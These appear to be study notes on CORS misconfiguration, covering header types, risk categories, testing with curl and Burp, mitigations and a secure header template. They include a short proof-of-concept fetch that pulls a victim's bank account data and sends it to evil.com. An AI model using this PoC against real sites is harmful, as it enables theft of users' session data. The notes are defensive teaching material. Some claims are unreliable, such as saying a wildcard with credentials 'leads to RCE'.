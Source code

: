 # CORS Misconfiguration

when a server **improperly allows cross-origin requests**, enabling unauthorized third-party domains to access protected APIs or user data (like tokens, cookies, and PII).  
Improper CORS policy allows untrusted sites to read protected data.

# Key CORS Headers

| Header | Purpose |
| :---- | :---- |
| Access-Control-Allow-Origin | Specifies which origins are allowed |
| Access-Control-Allow-Credentials | Indicates if cookies/auth headers can be sent |
| Access-Control-Allow-Methods | Lists allowed HTTP methods (e.g., GET, POST) |
| Access-Control-Allow-Headers | Lists allowed headers (e.g., Authorization) |

# Example: 

Access-Control-Allow-Origin: \*  
Access-Control-Allow-Credentials: true  
Wildcard Access-Control-Allow-Origin: \*  
This combo is **dangerous** because it:

* Allows all origins (\*)

* Allows sensitive credentials (cookies) to be sent

**Result**: Any malicious site can steal session data from authenticated users.

# Impact

| Area | Risk |
| :---- | :---- |
| Sensitive Data Exposure | Attackers can access user data (JSON, cookies) from victim sessions |
| API Abuse | Attacker-controlled sites can interact with protected internal APIs |
| Session Hijacking | Cookies sent with requests if withCredentials=true is enabled |
| Compliance Risk | Violates data protection standards (e.g., GDPR, HIPAA) |

# Types of CORS Misconfiguration

**1\. Wildcard Origin with Credentials**

* **Definition**: Access-Control-Allow-Origin: \* \+ Allow-Credentials: true

* **Impact**: Any site can send credentialed requests (severe)

* **Fix**: Never use \* when credentials are allowed

**2\. Reflection-Based Origin Whitelisting**

* **Definition**: Server reflects Origin header in Access-Control-Allow-Origin

* **Example**:   
  Origin: evil.com   
  → Access-Control-Allow-Origin: evil.com

* **Fix**: Only allow known, validated domains

**3\. Unrestricted Subdomain Wildcard**

* **Definition**: Using \*.domain.com in CORS config without control

* **Risk**: Any subdomain takeover \= full access

* **Fix**: Maintain strict subdomain allowlist

**4\. Method/Headers Over-Exposed**

* **Definition**: Allowing unsafe methods or headers

* **Example**: Access-Control-Allow-Methods: GET, POST, PUT, DELETE

* **Fix**: Use only necessary methods for API functionality

# Exploitation Example (PoC)

1. Victim is logged into:  
   https://bank.com/api/account  
2. Malicious site (evil.com) runs:  
   fetch("https://bank.com/api/account", {  
     method: "GET",  
     credentials: "include"  
   }).then(res \=\> res.text())  
     .then(data \=\> sendToAttacker(data));  
   If the bank has CORS misconfigured, the attack succeeds, leaking sensitive account data to evil.com.

# Testing Techniques

| Method | Tool | Description |
| :---- | :---- | :---- |
| Manual Origin Injection | Burp Suite / Postman | Add Origin: evil.com, observe response |
| Test with curl | Simple testing |  |

curl \-H "Origin: evil.com" [https://target.com/api](https://target.com/api)

| Chrome DevTools | Inspect CORS behavior |  
| CORS Scanner | Burp Extensions / CORS Misconfig tools |  
| JS Payloads | Create PoC HTML pages to test real browser behavior |

# Mitigation: 

| Strategy | Description |
| :---- | :---- |
| Strict Allow-Origin Policy | Only allow specific trusted domains |
| Never Use Wildcard (\*) with Credentials | Violates CORS spec and leads to RCE |
| CORS Preflight Validation | Validate origin, headers, methods in OPTIONS request |
| Use Server-Side Whitelist Logic | Check Origin against a fixed allowlist server-side |
| Secure Subdomains | Avoid CNAME takeover or wildcard logic |
| Use Short-Lived Tokens Instead of Cookies | Safer against browser-based leakage |

# Real-World Breaches 

| Company | Year | Description |
| :---- | :---- | :---- |
| Facebook | 2018 | Reflected Origin header → CORS bypass |
| Uber | 2016 | CORS misconfig \+ token abuse exposed user info |
| Google Apps (Bug Bounty) | Multiple CORS bugs in internal tools |  |

# Points

“CORS is not a vulnerability by itself — it becomes one when **misconfigured with wildcard origins, credentials, and reflective headers**.”

“In audits, simulate **browser-like requests** to test how the app responds to unauthorized origins.”

“For high-risk APIs, Recommend **strict origin checks, credential separation, and using OAuth tokens over cookies**.”

# CORS Secure Configuration Template

Access-Control-Allow-Origin: https://yourapp.com

Access-Control-Allow-Credentials: true

Access-Control-Allow-Methods: GET, POST

Access-Control-Allow-Headers: Content-Type, Authorization

